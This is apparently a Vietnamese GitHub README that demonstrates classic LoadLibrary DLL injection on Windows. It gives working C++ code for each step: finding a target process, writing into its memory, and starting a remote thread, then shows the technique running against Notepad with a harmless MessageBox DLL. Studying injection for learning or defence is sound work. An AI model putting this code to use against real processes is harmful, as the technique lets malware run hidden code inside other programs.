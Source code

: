# Demo Dll Injection

## [1] TỔNG QUAN
- Loại dll injection: `Classic LoadLibrary injection`.
- Dll được attach ở đây là 1 dll tự custom khá cơ bản, chỉ hiện thị MessageBox với dòng chữ bất kỳ.
- Hàm được gọi trong dll sẽ chạy ngay khi được attach vào tiến trình và hiển thị MessageBox.
- Lưu ý:
    - Chương trình cần chạy để attach dll là chương trình x64 nên dll cũng là dll x64 tương ứng.
    - Dll được attach thực thi 1 hàm ngay khi được nạp vào tiến trình, tức là case `DLL_PROCESS_ATTACH`

## [2] PHÂN TÍCH
Vì loại injection mình demo ở phần này là loại classic nên sẽ khá cơ bản. Các bước inject thực hiện lần lượt như sau:

- **Bước 1:** Tìm tiến trình cần inject, sử dụng `CreateToolhelp32Snapshot`

    ```C
    auto hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe{};
    pe.dwSize = sizeof PROCESSENTRY32;
    BOOL isProcessFound = FALSE;
    if (Process32First(hSnapshot, &pe) == FALSE) {
        CloseHandle(hSnapshot);
        cout << "[!] Unable to take first process snapshot\n";
        return FALSE;
    }
    if (_wcsicmp(pe.szExeFile, processname) == 0) {
        CloseHandle(hSnapshot);
        processId = pe.th32ProcessID;
        isProcessFound = TRUE;
    }
    while (Process32Next(hSnapshot, &pe)) {
        if (_wcsicmp(pe.szExeFile, processname) == 0) {
            cout << "[+] Closing handle to process snapshot\n";
            CloseHandle(hSnapshot);
            processId = pe.th32ProcessID;
            cout << "[+] Found Process\n";
            isProcessFound = TRUE;
        }
    }
    ```

- **Bước 2:** Copy đường dẫn của dll vào vùng nhớ của tiến trình

    ```C
    auto hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processId);
    if (hVictimProcess == NULL) {
        cout << "[!] Failed to open process\n";
        return FALSE;
    }
    auto pNameInVictimProcess = VirtualAllocEx(hVictimProcess, nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pNameInVictimProcess == NULL) {
        cout << "[!] Allocation of memory failed!\n";
        return FALSE;
    }
    auto bStatus = WriteProcessMemory(hVictimProcess, pNameInVictimProcess, lpdllpath, size, nullptr);
    if (bStatus == 0) {
        cout << "[!] Failed to write memory to the process\n";
        return FALSE;
    }
    ```

- **Bước 3:** Lấy API `LoadLibraryW()` hoặc `LoadLibraryA()` từ `kernel32.dll`

    ```C
    auto hKernel32 = GetModuleHandle(L"kernel32.dll");
    if (hKernel32 == NULL) {
        cout << "[!] Unable to find Kernel32 in process!\n";
        return FALSE;
    }
    auto LoadLibraryAddress = GetProcAddress(hKernel32, "LoadLibraryW");
    if (LoadLibraryAddress == NULL) {
        if ((LoadLibraryAddress = GetProcAddress(hKernel32, "LoadLibraryA")) == NULL) {
            cout << "[!] LoadLibraryA failed as well!\n";
            return FALSE;
        }
    }
    ```

- **Bước 4:** Nạp dll vào tiến trình được cấp, lúc này, các hàm được gọi trong dll sẽ được thực thi

    ```C
    auto hThreadId = CreateRemoteThread(hVictimProcess, nullptr, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(LoadLibraryAddress), pNameInVictimProcess, NULL, nullptr);
    if (hThreadId == NULL) {
        cout << "[!] Failed to create remote process\n";
        return FALSE;
    }
    WaitForSingleObject(hThreadId, INFINITE);
    ```

- Để chương trình này hoạt động được, nó yêu cầu chạy chương trình với 2 tham số đầu vào là `target process` và `file dll`:
    
    ```
    Dll_Injection.exe <path/to/process_name> <path/to/dll>
    ```

- Nếu tất cả các bước trên thành công thì tiến trình mục tiêu sẽ bị inject dll và thực hiện các hành vi theo kịch bản của dll đó.

## [3] KẾT QUẢ KHI CHẠY CHƯƠNG TRÌNH
### [3.1] Chạy chương trình thử nghiệm
- Ở phần thử nghiệm này, mình sẽ demo attach dll vào tiến trình Notepad.exe.
- Trước tiên mình sẽ mở Notepad lên để nó có thể xuất hiện trong bảng tiến trình TaskManager.
- Tiếp theo mình chạy command `Dll_Injection.exe Notepad.exe basicdll.dll` rồi theo dõi.
- Kết quả:
    - Khi chạy xong command trên, 1 MessageBox hiện lên:

        ![alt text](../images/dllinjection01.png)
    
    - Khi nhấn "OK", chương trình sẽ tiếp tục chạy nốt và thông báo log đã inject thành công:

        ![alt text](../images/dllinjection02.png)

### [3.2] Kiểm tra sự hiện diện của dll
- Do chỉ chạy chương trình không như thế này, mình chỉ thấy nó hiện lên MessageBox như mình đã code mà không biết nó đã thực sự được inject vào như thế nào hay nó còn được attach vào tiến trình đó không nên mình sử dụng 1 công cụ theo dõi khá dễ dùng là `Process Hacker`.
- Công cụ này hiển thị chi tiết các tiến trình hơn so với Task Manager, nó có thể xem được các dll được load vào còn Task Manager thì không.
- Tại tiến trình `Notepad.exe`, mình chuột phải chọn `Properties` hoặc nhấn phím Enter.

    ![alt text](../images/dllinjection03.png)

- Sau đó chọn tab `Modules` sẽ thấy các dll được load vào tiến trình này, và 1 trong số đó có dll mà mình đã cung cấp cho nó trong command.

    ![alt text](../images/dllinjection04.png)

- Như vậy là dll này đã được load vào và tồn tại xuyên suốt quá trình mà tiến trình mục tiêu còn đang hoạt động. Ngược lại, khi tắt Notepad đi thì dll đó cũng sẽ được giải phóng.

## [4] PHỤ LỤC
- Code hoàn chỉnh: [main.cpp](Dll_Injection/main.cpp)
- Dll custom: [dllmain.cpp](../Code_To_Inject/Dll/basicdll/dllmain.cpp)
- Nguồn tham khảo: [DLL_Injection](https://github.com/rootm0s/Injectors/blob/master/InjectProc/InjectProc/injection.cpp#L56)
